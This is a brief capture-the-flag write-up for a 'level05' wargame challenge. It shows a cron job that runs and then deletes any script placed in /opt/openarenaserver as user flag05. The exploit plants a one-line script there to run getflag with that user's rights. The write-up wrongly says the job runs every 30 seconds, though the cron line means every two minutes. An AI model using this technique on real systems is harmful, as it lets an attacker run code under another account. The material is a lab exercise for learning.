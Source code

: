 `cat /var/mail/level05` -> `*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05`
Every 30s the *openarenaserver* is executed as flag05

`cat /usr/sbin/openarenaserver`
->
```bash
#!/bin/sh
for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```
 every file is executed and remoted

```bash
echo 'getflag > /tmp/t' > /opt/openarenaserver/t
```

wait 30s then `cat /tmp/t`






